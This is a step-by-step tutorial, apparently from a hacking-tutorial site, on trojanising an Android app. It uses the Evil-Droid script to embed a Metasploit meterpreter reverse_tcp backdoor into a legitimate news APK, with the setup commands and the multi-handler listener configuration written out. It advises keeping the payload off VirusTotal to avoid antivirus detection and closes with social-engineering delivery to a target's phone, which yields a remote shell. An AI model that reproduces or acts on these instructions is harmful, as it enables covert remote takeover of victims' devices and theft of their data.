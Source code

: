 Mobile devices--smartphones and tablets--are proliferating around the world and slowly overtaking desktop and laptop machines. These mobile devices generally run either the iOS or the Android operating system, with Android comprising the bulk of all mobile device OS's (82%). Considering the growth of the mobile market and the dominance of the Android operating system, it only makes sense that Android hacking is increasingly becoming the leading edge of hacking. As such, we will spend increasing time and tutorials on Android hacking here at GitHub to prepare you for this eventuality.

 


This is the third entry in Android Hacking series with Setting up a Android Hacking Lab and Android Basics preceding it. I strongly recommend that you look over Android Basics article before proceeding further into this series.

 

### **Step #1 Download and Install Evil Droid**

 

To embed a backdoor into an Android APK, we will be using Evil-Droid. It's a python script developed by Mascerano Bachir that generates a framework for creating and embedding an APK payload to penetrate Android platforms. 

To download the script, you can clone it into your system by entering;

`kali > git clone https://github.com/M4sc3r4n0/Evil-Droid`

 

 Image 2

 
If you get an error message indicating that some of Evil-Droid's dependencies are not available or out-of-date, you may need to upgrade to newer versions of your packages.

` 
kali > apt-get upgrade`

### **Step #2 Give Yourself Execute Permissions**

 

The next step, of course, is to give yourself permission to execute this script. First, navigate to the Evil-Droid directory and then use **chmod** to give yourself execute permission.

` 
kali > cd Evil-Droid`

` 
kali > chmod 775 evil-droid`

 Image 3


###  
**Step #3 Execute Evil Droid**

 

Next, let's execute evil-droid. Evil-droid will check to see whether you have an Internet connection and several pieces of necessary software, including Metasploit.

`kali > ./evil-droid`

 

Image 4

 

_Note_ the bottom warning in RED. Do **NOT** upload the APK to VirusTotal.com as that will trigger an antivirus signature by the AV developers.

### **Step #4 Execute the  Framework**

 

Once evil-droid has successfully located all it's necessary components, you will receive a message like that below asking whether you want to "Execute Framework and services". Click "**Yes**".

 


Image 5
 



### **Step #5 Select Backdoor**

 

You will be greeted by the menu  screen below. You can select any of the backdoors by number. Here we selected "Backdoor APK Original (NEW)".

 

Image 6




### **Step #6 Select IP and Port**

 

Evil-droid will then ask you to set your LHOST (for Metasploit) and display your local IP and Public IP.

 

Image 7

 Then, it will prompt you for your LPORT. Port 4444 is the default port for Metasploit's Meterpreter and other payloads.

 Image 8

 

### **Step #7 Name your Payload**

 

Evil-droid will then ask you to name your payload. Here I named it **GitHUB**, but you can name it whatever pleases you.
 

### **Step #8 Select Your Payload/Listener**

 

Now, we need to select a payload. Evil-droid enables you to use any of the Android payloads from Metasploit including **android/meterpreter/reverse_tcp**. Simply click on the radio button next to the payload you want to embed in the APK.

Image 9



### **Step #9 Download APK and Embed Backdoor**

 

Next, evil-droid prompts us for the APK file we want to embed the backdoor into. Here, I have downloaded the beloved **Foxnews.apk** for embedding our backdoor.

Image 10
 
 

### **Step #10 Select Metasploit Multi-Handler to make a Connection**

In our next step, we need to  tell evil-droid how we are going to connect to the backdoor. Select "Multi-Handler".

 Image 11


We now need to open the multi-handler in Metasploit so that it can "catch" the connection coming back from the embedded payload. 

 
Open Metasploit by entering;

`kali > msfconsole`

Now we need to start the multi-handler and tell Metasploit what IP and port to listen on and which payload to listen for.

`msf > use exploit/multi/handler`

`msf > set PAYLOAD android/meterpreter/reverse_tcp`

`msf > SET LHOST 192.168.1.104`

`msf > set LPORT 4444`

 

Image 12

 

### **Step #11 Deliver the APK to the Target**

 

In this final step, we need to have the APK (with the embedded backdoor) to be installed and executed on the target's Android device. This is where some social engineering skills can prove helpful. You can email the APK or send it via **DropBox** or other file sharing system. If you have physical access to the device, you could simply install it yourself.


Image 13
 
When the target user installs the app to view their "**Fair and Balanced**" FoxNews, it will execute the backdoor and connect back to your system giving you  a meterpreter shell on their android device!

